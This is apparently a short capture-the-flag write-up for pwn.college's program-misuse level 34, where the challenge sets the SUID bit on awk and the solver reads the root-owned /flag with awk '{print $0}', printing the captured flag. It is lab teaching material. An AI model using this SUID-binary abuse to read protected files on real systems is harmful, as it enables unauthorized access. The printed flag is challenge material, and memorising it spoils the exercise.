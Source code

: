 `awk`

`awk` is a versatile and powerful scripting language designed for pattern scanning and text processing.

https://www.freecodecamp.org/news/the-linux-awk-command-linux-and-unix-usage-syntax-examples

To print `all` of the contents of a file, the command is :

`awk '{print $0}' file`

This is equivalent to the `cat` command.

```bash
hacker@program-misuse-level-34:~$ cd /
hacker@program-misuse-level-34:/$ cd challenge/
hacker@program-misuse-level-34:/challenge$ ls
babysuid_level34
hacker@program-misuse-level-34:/challenge$ ./babysuid_level34 
Welcome to ./babysuid_level34!

This challenge is part of a series of programs that
will require some light programming to read the flag..

I just set the SUID bit on /usr/bin/awk.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level34) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/awk!
hacker@program-misuse-level-34:/challenge$ awk cat /flag
hacker@program-misuse-level-34:/challenge$ ls
babysuid_level34
hacker@program-misuse-level-34:/challenge$ cd /
hacker@program-misuse-level-34:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-34:/$ awk cat /flag
hacker@program-misuse-level-34:/$ awk '{print $0}' /flag
pwn.college{sKHjhieVUYdsqDlkvN-GhnKU_uR.0lN3EDL0AjNzQzW}
```


